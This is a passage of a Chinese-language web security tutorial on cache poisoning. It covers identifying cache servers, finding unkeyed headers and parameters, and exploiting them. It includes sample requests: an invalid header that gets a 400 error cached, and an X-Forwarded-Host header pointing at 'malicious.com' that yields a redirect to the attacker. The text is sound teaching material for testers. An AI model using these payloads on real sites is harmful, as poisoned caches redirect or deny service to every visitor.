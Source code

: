 2.  **工具辅助检查**：
    
    -   使用 `curl` 检查响应头：
        
        ```shell
        curl -I https://example.com
        ```
        
    -   重点观察以下头部：
        
        ```http
        Cache-Control: public, max-age=3600
        Age: 120
        X-Cache: HIT
        Via: 1.1 varnish
        ```
        
3.  **识别目标缓存服务器**：
    
    -   根据 `Via` 或其他特定字段（如 `Server`），识别缓存服务器的种类（如 Varnish, Squid）。

##### **3.2.2 识别非缓存键**
攻击者需要首先确定哪些请求信息属于非缓存键。
- **工具和方法**：
  - 使用 **Burp Suite** 或 **curl** 测试：
    ```bash
    curl -I -H "X-Test: 123" https://example.com
    ```
    - 如果响应中包含 `X-Test` 的影响，则表明后端处理了该头部。
    - 如果缓存行为未变化，则说明该头部是非缓存键。
  - 使用 **[Param Miner](https://portswigger.net/bappstore/17d2949a985c4b7ca092728dba871943)** 暴力破解可能改变页面响应的参数和
  - 检查缓存服务器是否忽略某些查询参数。
- **常见的非缓存键**：
  - 请求头：`X-Forwarded-Host`、`X-Forwarded-For`。
  - 查询参数：`?debug=true`、`?preview=1`。

##### **3.2.3 利用非缓存键**
攻击者构造带有非缓存键的恶意请求，诱导后端服务器返回特殊响应。

- **案例 1：利用错误响应代码([点击查看更多错误响应代码示例](https://book.hacktricks.xyz/cn/pentesting-web/cache-deception/cache-poisoning-to-dos))**
  - 请求:
  ```http
  GET / HTTP/1.1
  Host: example.com
  X-Invalid-Header: test
  ```
              
  - 返回的响应：           
  ```http
  HTTP/1.1 400 Bad Request
  Content-Type: text/html
  ```

- **案例 2：利用头部污染**
  - 请求：
    ```http
    GET / HTTP/1.1
    Host: example.com
    X-Forwarded-Host: malicious.com
    ```
  - 后端服务器误信 `X-Forwarded-Host`，生成恶意响应：
    ```html
    <html>
    <meta http-equiv="refresh" content="0;url=http://malicious.com">
    </html>
    ```
- **案例 3：利用参数注入**